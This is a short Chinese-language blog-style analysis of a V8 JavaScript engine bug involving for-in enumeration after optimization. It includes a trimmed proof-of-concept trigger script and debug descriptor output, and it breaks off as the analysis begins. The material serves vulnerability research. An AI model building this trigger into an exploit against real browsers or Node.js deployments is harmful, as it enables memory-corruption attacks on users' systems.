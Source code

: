 #   
# 漏洞分析  
  
推荐去看issue页面的description.pdf，讲的很清晰。下面的内容也是由这个pdf展开。  
  
## poc验证  
  
在release版本下验证，debug版本有检测，会导致直接carsh。  
  
  
精简了一下poc  
  
  
```
const object1 = {};
object1.a = 1;
const object2 = {};
object2.a = 1;
object2.b = 1;
const object3 = {};
object3.a = 1;
object3.b = 1;
object3.c = 1;

for (let key in object2) { }

function trigger(callback) {
    for (let key in object2) {
        if (key == 'b'){
            callback();
            console.log(object2[key]);
        }
    }
}

%PrepareFunctionForOptimization(trigger);
trigger(_ => _);
trigger(_ => _);
%OptimizeFunctionOnNextCall(trigger);

trigger(_ => {
    object3.c = 1.1;
    for (let key in object1) { }
});

```  
  
  
  
看到这样的输出，就说明环境是没有问题的  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8Gj6Rxl7nPIbK1EcmQIoBmyK3M8xUOe6EXacZJibic4GYTicq35GBhGHsTaDE1picOTd08zbaeITPqcLg/640?wx_fmt=png&from=appmsg "")  
##   
## poc分析  
  

  [0]: 0x224300002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x224300002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x224300002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 0, attrs: [WEC]) @ Any